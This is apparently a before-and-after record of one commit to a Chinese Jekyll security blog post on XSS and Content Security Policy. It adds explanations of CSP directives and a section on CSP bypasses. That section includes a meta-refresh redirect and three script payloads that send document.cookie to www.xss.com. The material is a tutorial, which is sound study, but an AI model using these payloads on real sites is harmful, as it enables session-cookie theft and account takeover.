

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2018-04-10-XSS和CSP.md, in a window 1280 px wide and 1400 px high, scrolled down 5318 px. Shown: the whole window, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6610 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2018-04-10-XSS和CSP.md
+++ b/_posts/2018-04-10-XSS和CSP.md
@@ -248,9 +248,18 @@ CSP的特点就是他是在浏览器层面做的防护，是和同源策略同
 
 ```html
 Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
+使用<meta>标签:
+<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org; child-src https:">
+
 ```
 
+script-src(脚本)：只信任当前域名
+object-src(标签)：不信任任何URL，即不加载任何资源
+style-src：只信任http://cdn.example.org
+child-src（frame）：必须使用HTTPS协议加载
+
 - 常用的策略指令:
+    - default-src 'self' 除了被设置的指令以外 其余指令都会被设置为default-src指令所设置的属性
     - script-src定义了页面中Javascript的有效来源
     - style-src定义了页面中CSS样式的有效来源
     - img-src定义了页面中图片和图标的有效来源
@@ -274,6 +283,24 @@ Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-in
 ```php
 header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
 ```
+### 绕过default-src 'none'
+
+在default-src 'none'的情况下 可以使用meta标签实现跳转:
+
+```html
+<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
+
+```
+
+### 绕过cript-src 'unsafe-inline'
+
+在允许unsafe-inline的情况下 可以用window.location 或者window.open之类的方法进行跳转绕过
+
+```html
+<script>window.location="https://www.xss.com/x.php?c="+document.cookie;</script>
+<script>window.open('//www.xss.com/?'+escape(document.cookie))</script>
+<script>window.location.href='https://www.xss.com/?cookie='+document.cookie</script>
+```
 
 ## X-XSS-Protection
 
````
Also changed, not shown: _posts/2018-03-13-win&linux系统备忘.md (+3 -0 lines), _posts/2018-12-25-文件上传.md (added, +20 -0 lines), _posts/2019-07-13-php-fpm的未授权访问.md (+19 -8 lines), _posts/2019-08-03-PHP相关.md (+23 -5 lines), _posts/2020-09-20-JAVA-RMI.md (+21 -4 lines), _posts/2022-03-05-SDL和DevSecOps.md (renamed from _posts/2022-SDL和DevSecOps.md).
